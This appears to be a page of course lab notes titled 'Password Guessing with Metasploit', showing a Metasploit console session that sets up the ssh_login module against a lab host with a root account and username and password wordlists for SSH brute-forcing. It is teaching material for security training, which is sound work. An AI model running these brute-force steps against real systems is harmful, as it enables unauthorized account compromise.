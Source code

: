 ## 3.1b Password Guessing with Metasploit

```bash
# Start Metasploit
msfconsole -q

msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/ssh/ssh_login) > set PASSWORD sec504
PASSWORD => sec504
msf6 auxiliary(scanner/ssh/ssh_login) > set gatherproof false
gatherproof => false
msf6 auxiliary(scanner/ssh/ssh_login) > run

msf6 auxiliary(scanner/ssh/ssh_login) > unset PASSWORD
Unsetting PASSWORD...
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /home/sec504/labs/passhydra/passwords.txt
PASS_FILE => /home/sec504/labs/passhydra/passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > unset USERNAME
Unsetting USERNAME...
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /home/sec504/labs/passhydra/ulist.txt
USER_FILE => /home/sec504/labs/passhydra/ulist.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 172.30.0.25
RHOSTS => 172.30.0.25
msf6 auxiliary(scanner/ssh/ssh_login) > info

       Name: SSH Login Check Scanner
     Module: auxiliary/scanner/ssh/ssh_login
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  todb <todb@metasploit.com>

Check supported:
  No

Basic options:
  Name              Current Setting                            Required  Description
  ----              ---------------                            --------  -----------
  BLANK_PASSWORDS   false                                      no        Try blank passwords for all users
  BRUTEFORCE_SPEED  5                                          yes       How fast to bruteforce, from 0 to 5
  DB_ALL_CREDS      false                                      no        Try each user/password couple stored in the current database
  DB_ALL_PASS       false                                      no        Add all passwords in the current database to the list
  DB_ALL_USERS      false                                      no        Add all users in the current database to the list
  PASSWORD                                                     no        A specific password to authenticate with
  PASS_FILE         /home/sec504/labs/passhydra/passwords.txt  no        File containing passwords, one per line
  RHOSTS            172.30.0.25                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT             22                                         yes       The target port
  STOP_ON_SUCCESS   false                                      yes       Stop guessing when a credential works for a host
```